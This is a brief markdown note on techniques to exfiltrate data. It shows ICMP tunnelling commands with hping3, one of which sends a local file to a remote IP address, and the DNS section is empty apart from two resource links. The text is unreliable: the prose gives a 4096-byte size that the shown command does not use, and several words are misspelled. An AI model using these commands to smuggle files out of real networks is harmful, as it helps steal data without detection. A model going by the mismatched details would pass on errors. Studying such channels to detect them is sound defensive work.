

# Techniques to exfiltrate data

### ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```$ ping 127.0.0.1 -s 1024```

The payload of 4096 is junk **until** you add your own payload:

```$sudo hping3 127.0.0.1 -1 --sign="Hello world!"```

or even send a file:

```
$ sudo hping3 192.168.179.131 -1 --file send.txt --data 100
```

### DNS protocol



#### Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664